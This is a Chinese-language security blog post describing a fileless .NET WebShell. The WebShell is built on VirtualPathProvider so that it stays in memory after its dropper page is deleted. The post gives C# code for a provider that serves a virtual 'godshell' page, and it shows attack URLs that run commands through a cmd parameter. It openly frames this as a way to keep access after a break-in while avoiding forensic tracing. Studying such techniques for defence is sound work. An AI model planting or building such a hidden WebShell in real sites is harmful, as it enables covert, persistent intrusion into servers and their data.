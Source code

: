 0x01 背景信息
=========

本次分享基于.NET2.0及以上版本支持的VirtualPathProvider类实现的虚拟文件隐匿手法，VirtualPathProvider类适用范围很广具备很强的通用性，而且也是基于在打点后维持权限的一种高级手段，当主机不重启的情况下删除内存注入文件后依然有效。攻击者通过自定义访问的虚拟Webshell溯源难度更大，难以排查，具体如何实现的原理及攻击方法请看本文完整的分析

0x02 虚拟文件
=========

很多场景下实现页面或文件隐藏可以继承IHttpHandler,IHttpModule这两个HTTP请求生命周期范围内的核心接口，并在web.config文件中配置映射的扩展和注册的程序集，与之相比，VirtualPathProvider更为强大。具体的适用场景例如在某些特殊的情况下网站常规的文件、目录编排方式不能满足要求，在.Net 2.0提供了VirtualPathProvider来实现自己的虚拟文件系统，可以把网站基础信息保存到数据库中，然后将这些数据库里的数据通过虚拟化技术提供HTTP访问，这些类通常定义在System.Web.Hosting命名空间内，如：VirtualFile、VirtualDirectory等，例如下图通过一个从 SQL Server 表读取 ASPX 文件的简单示例来理解 VirtualPathProvider 类。我们在本地 SQL Server 上有一个如下图所示的数据库表，里面保存了3个页面，可以看到表里有一个文件名和ASPX文件内容。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-248d8576929799f14ef04a3cd4503cc68501c1ab.png)

VirtualPathProvider类被定义在 System.Web.Hosting 命名空间里，作用使 Web 应用程序可以从虚拟文件系统中检索注册的资源，该类位于System.Web.dll文件，自身是一个抽象类继承于MarshalByRefObject，所以咱们再使用的过程中需要自定义一个类去实现，而MarshalByRefObject类是一个.NET框架提供的基类，用于不同AppDomain之间对象之间的通信，此类也是通过使用代理交换消息来跨应用程序域边界进行通信的对象的。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-e277e86bca8d2e3b976c0cd25a5faf56aaf73efe.png)

回到VirtualPathProvider类，实现该类时重写 FileExists和GetFile两个方法，VirtualPathProvider.FileExists()表示文件是否存在于虚拟文件系统中，告诉系统是否存在请求路径，如果存在，则事件通知继续调用 GetFile 方法，VirtualPathProvider.GetFile() 表示从虚拟文件系统中获取一个虚拟文件，代码如下

```php
public virtual bool FileExists(string virtualPath) => this._previous != null && this._previous.FileExists(virtualPath);
public virtual VirtualFile GetFile(string virtualPath) => this._previous == null ? (VirtualFile) null : this._previous.GetFile(virtualPath);
```

GetFile返回的是一个VirtualFile对象，此对象和VirtualPathProvider一样都是抽象的，所以还需要自定义一个类去实现它，并且重写此抽象类里的Open方法，这个类的构造函数获取虚拟路径以及文件的内容，在 Open方法里处理的数据被保存到了 MemoryStream，然后返回这个流，.NET使用这个流读取内容，就像在读取物理盘符下的文件一样。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-d569d4577e8d46e3ff31fbe614efb2b7b806ec78.png)

最后还需要在Golbal.asax文件中的Application\_Start方法内向托管应用程序提供应用程序管理功能和应用程序服务注册新实例，代码如下

```php
HostingEnvironment.RegisterVirtualPathProvider(new MyVirtualPathProvider());
```

0x03 底层分析
=========

下图中以GetHandler类为起点进入.NET HTTP请求页面的生命周期，位于System.Web.UI.PageHandlerFactory类，如下代码

```php
public virtual IHttpHandler GetHandler(HttpContext context, string requestType, string virtualPath, string path) {
        Debug.Trace("PageHandlerFactory", "PageHandlerFactory: " + virtualPath);
        return GetHandlerHelper(context, requestType, VirtualPath.CreateNonRelative(virtualPath), path);
    }

private IHttpHandler GetHandlerHelper(HttpContext context, string requestType,
        VirtualPath virtualPath, string physicalPath) {

        Page page = BuildManager.CreateInstanceFromVirtualPath(
            virtualPath, typeof(Page), context, true /*allowCrossApp*/) as Page;
        if (page == null)
            return null;

        page.TemplateControlVirtualPath = virtualPath;

        return page;
    }
```

通过GetHandlerHelper方法调用运行时编译的核心类BulidManager的CreateInstanceFromVirtualPath方法，而System.Web.Compilation.BulidManager类涉及的GetVirtualPathObjectFactory、GetVPathBuildResultWithNoAssert、CompileWebFile等多个方法负责站点的动态编译，所有的页面、用户控件、以及所有的ASP.NET特殊目录都会在运行时被BuildManager编译和处理。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-8dfb633f01983c9401cdd2acc8af84a328d5aeff.png)

接着通过BuildProvider类的GetCompilerTypeFromBuildProvider方法实现将文件内容转换成相应的源代码，通常情况下在web.config文件中配置了不同扩展名文件选择不同的BuildProvider进行源码解析生成。例如下配置

```php
<buildProviders>
                <add extension=".aspx" type="System.Web.Compilation.PageBuildProvider"/>
                <add extension=".ascx" type="System.Web.Compilation.UserControlBuildProvider"/>
                <add extension=".master" type="System.Web.Compilation.MasterPageBuildProvider"/>
                <add extension=".asmx" type="System.Web.Compilation.WebServiceBuildProvider"/>
                <add extension=".ashx" type="System.Web.Compilation.WebHandlerBuildProvider"/>
                <add extension=".soap" type="System.Web.Compilation.WebServiceBuildProvider"/>
                <add extension=".resx" type="System.Web.Compilation.ResXBuildProvider"/>
                <add extension=".resources" type="System.Web.Compilation.ResourcesBuildProvider"/>
                <add extension=".wsdl" type="System.Web.Compilation.WsdlBuildProvider"/>
                <add extension=".xsd" type="System.Web.Compilation.XsdBuildProvider"/>
</buildProviders>
```

接着System.Web.UI.TemplateParser类的ParseFile方法传递虚拟地址，到这里开始进入VirtualPathProvider类的OpenFile方法读取虚拟文件内容返回流数据

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-3e5664e99d22303d4a8dfd03f0b9e96c16fcc302.png)

0x04 实现WebShell
===============

从上述两个小节介绍的原理和使用方法来看，自定义的虚拟路径提供类MyVirtualPathProvider 需要继承System.Web.Hosting.VirtualPathProvider，必须重写FileExists和GetFile两个方法，FileExists方法里使用Contains方法判断路径中是否存在godshell字符串，如果存在返回true自动进入GetFile方法内实例化自定义的虚拟文件对象MyVirtualFile

```php
public class MyVirtualPathProvider : VirtualPathProvider
    {

        public override bool FileExists(string virtualPath)
        {
            virtualPath = virtualPath.ToLower();

            if (virtualPath.Contains("godshell"))
            {
                return true;
            }
            else
            {
                return Previous.FileExists(virtualPath);
            }
            //return base.FileExists(virtualPath);
        }

        public override VirtualFile GetFile(string virtualPath)
        {
            virtualPath = virtualPath.ToLower();

            if (virtualPath.Contains("godshell"))
            {
                return new MyVirtualFile(virtualPath);
            }
            else
            {
                return Previous.GetFile(virtualPath);
            }
            //return base.GetFile(virtualPath);
        }

    }
```

MyVirtualFile如上所述是一个实现类，继承于VirtualFile类，重写Open方法因为返回的数据类型是Stream，所以在方法体内需要创建MemoryStream对象作为返回的值，当然笔者在该方法里添加进程启动代码后返回的Stream是NULL，另外在此类的构造方法里也可以添加达到同样的效果。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-f3b59cfe533da01dec80642d94184728dc073554.png)

测试运行第一步访问 /dotNetofVirtuaFile.aspx 将虚拟文件注入到内存，并删除此文件；第二步访问 /godshell.aspx?cmd=ipconfig 得到预期的结果信息，第三步打开新的浏览器标签页访问 /godshell4.aspx?cmd=tasklist

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-a50b7a9ec2e1d43aa579831ef102bb608b822935.png)

0x05 结语
=======

.NET这样实现无文件落地的WebShell技术还有很多，如果对这些技巧感兴趣的话可以多关注我们的[博客](https://www.cnblogs.com/Ivan1ee/)、[公众号dotNet安全矩阵](https://mp.weixin.qq.com/s/VIsJlDmWGD0QcgBDDsRP9g)以及[星球](https://t.zsxq.com/04yFmii2b)，下一篇将继续分享 .NET 实现虚拟WebShell系列第二章，请大伙继续关注。另外文章涉及的PDF和Demo以及工具已打包发布在星球，欢迎对.NET安全关注和关心的同学加入我们，在这里能遇到有情有义的小伙伴，大家聚在一起做一件有意义的事。